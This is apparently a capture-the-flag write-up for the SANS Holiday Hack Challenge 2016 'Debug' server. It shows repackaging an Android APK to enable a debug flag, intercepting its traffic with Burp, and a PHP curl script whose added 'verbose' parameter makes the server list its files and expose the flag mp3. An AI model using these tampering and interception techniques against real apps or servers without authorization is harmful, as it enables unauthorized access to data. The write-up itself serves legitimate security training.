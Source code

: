 ## SANS Holiday Hack Challenge 2016
# Part 04c : Full of Holes (Debug)

Santa has been rescued!! But the culprit has not been identified.

This part focuses on finding and exploiting several vulnerabilities in multiple SantaGram servers. The "flag" is a mp3 audio file hidden on each of these servers.

The urls of the various servers can be found in the "strings.xml" of the SantaGram APK we got in Part 2.

![servers](../04a/img/01.png)

These are the servers in flag order
- [Analytics 1](../04a/#analytics-1)
- [Dungeon](../04b/#dungeon)
- [Debug](../04c/#debug)
- [Ads](../04d/#ads)
- [Exception](../04e/#exception)
- [Analytics 2](../04f/#analytics-2)

---

### Debug

The debug server is lcoated at http://dev.northpolewonderland.com/index.php

However, accessing it with a normal browser will just be met with a empty reply.

We have to look into the SantaGram code to figure out what parameters this server is expecting.

The code that is resposnible for sending data to the debug server is in the "EditProfile" class.

![editprof](img/01.png)

The data that is being send are all Objects. Therefore, I can't be sure of how they will look like in HTTP form. The most direct way is to try and intercept this traffic as the app is sending it.

However, in order for the code to reach here, the "debug_data_enabled" string in the strings.xml shown above need to be change to "true" first.

### Modifying and Re-packaging an APK

First of all, use apktool to decompile the apk

> apktool d SantaGram_4.2.apk

Open res/values/strings.xml in a text editor and change the "debug_data_enabled" string to "true"

![changed](img/02.png)

Recompile the apk

> apktool b SantaGram_4.2

![build](img/03.png)

Go to the "dist/" subfolder. The output apk file is here. Before we can install it on a device, we need to sign the apk first.

"keytool" and "jarsigner" should have been installed together with your JAVA installation

> keytool -genkey -v -keystore my.keystore -alias abc -keyalg RSA -validity 10000

This will create a keystore file. It will also ask you for a password. Enter any password you like and remember it.

![keytool](img/04.png)

> jarsigner -verbose -sigalg MD5withRSA -digestalg SHA1 -keystore my.keystore SantaGram_4.2.apk abc

This will sign the apk with the generated signature. Enter the password that was created just moments ago.

![jarsign](img/05.png)

Now, we can install this apk into a device or emulator for packet capture.

> adb install SantaGram_4.2.apk

### Intercepting the packets

Setup your preferred packet interception setup.

I used a real Android device with a WIFI proxy which is my laptop. On the laptop, I am running Burp.

Also, [install Burp's CA cert](https://support.portswigger.net/customer/portal/articles/1841102-installing-burp-s-ca-certificate-in-an-android-device) into the Android device to allow it to capture HTTPS traffic too.
- Start Burp on the laptop
- Visit http://burp (or http://127.0.0.1:8080)
- Click on the "CA Certificate" link to download the cert file.
- Rename the extension to ".cer"
- Transfer it onto the Android Device
- Install it by going to Settings->Security->Credential Storage->Install from Storage

Once everything has been setup, launch the SantaGram application.

Create an accound and go to the "Edit Profile" page as that is where the above code is run.

The following request should have been intercepted by Burp

![request](img/06.png)

### Getting the audio

Let's replicate this request in PHP so that it is easier to manipulate.

```php
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$url = 'http://dev.northpolewonderland.com/index.php';
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$postfields = array();
$postfields['date'] = "20170104160539+0800";
$postfields['udid'] = "f69d6681d7473e64";
$postfields['debug'] = "com.northpolewonderland.santagram.EditProfile, EditProfile";
$postfields['freemem'] = 153922016;
$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
echo $resp."\n";

curl_close($ch);
```

Running the script gives the following reply

> {"date":"20170104081123","status":"OK","filename":"debug-20170104081123-0.txt","request":{"date":"20170104160539+0800","udid":"f69d6681d7473e64","debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":153922016,"verbose":false}}

If we try to access the returned text filepath, it returns a page that is exactly what we just entered.

The interesting part of the response is that there is a "verbose" key. Let'r try adding that into our script

```php
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$url = 'http://dev.northpolewonderland.com/index.php';
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$postfields = array();
$postfields['date'] = "20170104160539+0800";
$postfields['udid'] = "f69d6681d7473e64";
$postfields['debug'] = "com.northpolewonderland.santagram.EditProfile, EditProfile";
$postfields['freemem'] = 153922016;
$postfields['verbose'] = true;
$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
echo $resp."\n";

curl_close($ch);
```

Running the script gives the following response

![yayreply](img/07.png)

Notice that the first entry in the "files" key is an mp3 file. (Also notice the timestamp is just before Christmas =/)

The mp3 file is at dev.northpolewonderland.com/debug-20161224235959-0.mp3

Download and save "[debug-20161224235959-0.mp3](../05/debug-20161224235959-0.mp3)"

I've also included the [php script](soln.php)
